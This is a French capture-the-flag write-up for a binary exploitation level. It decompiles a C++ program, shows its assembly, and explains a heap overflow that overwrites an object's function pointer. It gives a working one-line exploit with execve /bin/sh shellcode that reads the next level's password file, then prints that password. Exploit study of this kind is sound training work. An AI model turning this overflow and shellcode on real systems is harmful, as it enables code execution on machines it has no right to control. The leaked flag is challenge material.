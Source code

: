 # Rapport CTF - [Level09]

### Observation :
En arrivant sur le level9 on trouve un exécutable nommé level9.\
Quand nous essayons de le lancer nous n'avons pas de retour. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c++
//----- (080486F6) --------------------------------------------------------
void __cdecl N::N(N *this, int a2)
{
*(_DWORD *)this = off_8048848;
*((_DWORD *)this + 26) = a2;
}

//----- (0804870E) --------------------------------------------------------
void *__cdecl N::setAnnotation(N *this, char *s)
{
size_t v2; // eax

v2 = strlen(s);
return memcpy((char *)this + 4, s, v2);
}

//----- (080485F4) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  N *v3; // ebx
  N *v4; // ebx
  N *v6; // [esp+1Ch] [ebp-8h]

  if ( argc <= 1 )
    _exit(1);
  v3 = (N *)operator new(0x6Cu);
  N::N(v3, 5);
  v6 = v3;
  v4 = (N *)operator new(0x6Cu);
  N::N(v4, 6);
  N::setAnnotation(v6, (char *)argv[1]);
  return (**(int (__cdecl ***)(N *, N *))v4)(v4, v6);
}
```
Nous pouvons voir que c'est un code en cpp, qui new (malloc). \
Il n'y a pas de protection sur l'entrée de notre arv[1]. \
Nous pouvons donc injecter du code. 
#### Regardons l'asm:


```c
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   %ebp
   0x080485f5 <+1>:	mov    %esp,%ebp
   0x080485f7 <+3>:	push   %ebx
   0x080485f8 <+4>:	and    $0xfffffff0,%esp
   0x080485fb <+7>:	sub    $0x20,%esp
   0x080485fe <+10>:	cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	movl   $0x1,(%esp)
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	movl   $0x6c,(%esp)
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    %eax,%ebx
   0x0804861e <+42>:	movl   $0x5,0x4(%esp)
   0x08048626 <+50>:	mov    %ebx,(%esp)
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:	mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:	movl   $0x6c,(%esp)
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:	mov    %eax,%ebx
   0x08048640 <+76>:	movl   $0x6,0x4(%esp)
   0x08048648 <+84>:	mov    %ebx,(%esp)
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:	mov    %ebx,0x18(%esp)
   0x08048654 <+96>:	mov    0x1c(%esp),%eax
   0x08048658 <+100>:	mov    %eax,0x14(%esp)
   0x0804865c <+104>:	mov    0x18(%esp),%eax
   0x08048660 <+108>:	mov    %eax,0x10(%esp)
   0x08048664 <+112>:	mov    0xc(%ebp),%eax
   0x08048667 <+115>:	add    $0x4,%eax
   0x0804866a <+118>:	mov    (%eax),%eax
   0x0804866c <+120>:	mov    %eax,0x4(%esp)
   0x08048670 <+124>:	mov    0x14(%esp),%eax
   0x08048674 <+128>:	mov    %eax,(%esp)
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret   
```
On peut voir à partir de la ligne 136 que eax vas être mov dans edx qui vas exécuter sa valeur déréférencé.


### Solution :
Il nous faut donc overflow notre malloc (new) de `108` octets pour changer l'adresse de la fonction exécutée par le contenu de notre shellcode. \
On injecte donc notre code: 
- Notre adresse de `arv[1] + 4` pour le déréférencement
- Notre `SHELLCODE` (en l'ocurrence 24 caractères)
- Des octets random jusqu'à atteindre `108` pour pouvoir overflow, donc `108 - 4 - 24`
- Et enfin l'adresse de notre arv[1] pour qu'il puisse le déréférencer et arriver sur notre shellcode.

On fait la commande suivante pour obtenir le flag :
```sh
/home/user/level9/level9 $(python -c "print('\x08\x04\xa0\x10'[::-1]  + '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'A'*(108 - 4 - 24) + '\x08\x04\xa0\x0c'[::-1])") <<< "cat /home/user/bonus0/.pass"
```

### Resultat :
```sh
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
